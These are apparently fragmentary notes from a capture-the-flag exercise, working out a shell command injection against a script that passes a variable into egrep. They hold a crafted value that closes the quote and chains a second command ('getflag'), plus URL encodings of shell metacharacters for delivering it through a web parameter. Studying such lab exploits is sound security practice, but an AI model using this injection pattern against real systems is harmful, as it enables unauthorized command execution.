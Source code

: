 we have : 

egrep "^$xx" /tmp/xd 2>&1

we want : 

xx=";getflag > /var/tmp/flag

xx=a";\

egrep "^a";\" /tmp/xd 2>&1

< : %3C
> : %3E
" : %22
; : %3B
$ : %24
\ : %5C

x=%22